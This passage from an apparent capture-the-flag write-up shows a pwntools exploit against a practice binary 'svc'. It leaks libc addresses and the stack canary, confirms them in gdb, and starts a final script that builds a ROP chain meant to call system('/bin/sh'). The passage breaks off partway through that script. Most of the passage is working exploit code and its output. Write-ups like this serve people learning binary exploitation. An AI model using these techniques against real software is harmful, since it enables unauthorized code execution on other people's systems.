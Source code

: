 ```
binsh = puts_leak + 0x11a320
log.info("system: " + hex(system))
log.info("binsh:  " + hex(binsh))

#drop to an interactive shell
target.interactive()
```

when we run it:

```
[*] puts_leak: 0x7f83bac8a920
[*] system: 0x7f83bac5f6a0
[*] binsh:  0x7f83bada4c40
[*] Switching to interactive mode
```

when we check those in gdb:

```
gdb-peda$ p puts
$1 = {<text variable, no debug info>} 0x7f83bac8a920 <_IO_puts>
gdb-peda$ p system
$2 = {<text variable, no debug info>} 0x7f83bac5f6a0 <__libc_system>
gdb-peda$ find /bin/sh
Searching for '/bin/sh' in: None ranges
Found 1 results, display max 1 items:
libc : 0x7f83bada4c40 --> 0x68732f6e69622f ('/bin/sh')
```

So we can see that we can successfully figure out the addresses of `/bin/sh` and `system`. We also have rce, and the stack canary. Now all we need to do is call `system` with the argument `/bin/sh`. We can do this in the same manner that we made the puts call. However before we do that, we will need to call main function again that, that ay we can write the new payload an run it. To grab that address, I just grabbed to first address from the assembly code for the main function in IDA.

and now putting it all together for our finished exploit:

```
#Import pwntools
from pwn import *

#Establish the target process, and attack gdb
target = process("./svc")
#gdb.attach(target)
elf = ELF('svc')

#Establish the needed addresses
puts_got = 0x602018
puts_plt = 0x4008d0
gadget = 0x400ea3
main = 0x400a96

log.info("puts_got is: " + hex(puts_got))
log.info("puts_plt is: " + hex(puts_plt))
log.info("gadget addr: " + hex(gadget))

#Specify that the menu option to scan in data into memory
print target.recvuntil(">>")
target.sendline('1')
print target.recvuntil(">>")

#Send the payload, which will allow us to leak the canary
leak_payload = "0"*0xa8
target.sendline(leak_payload)
print target.recvuntil(">>")

```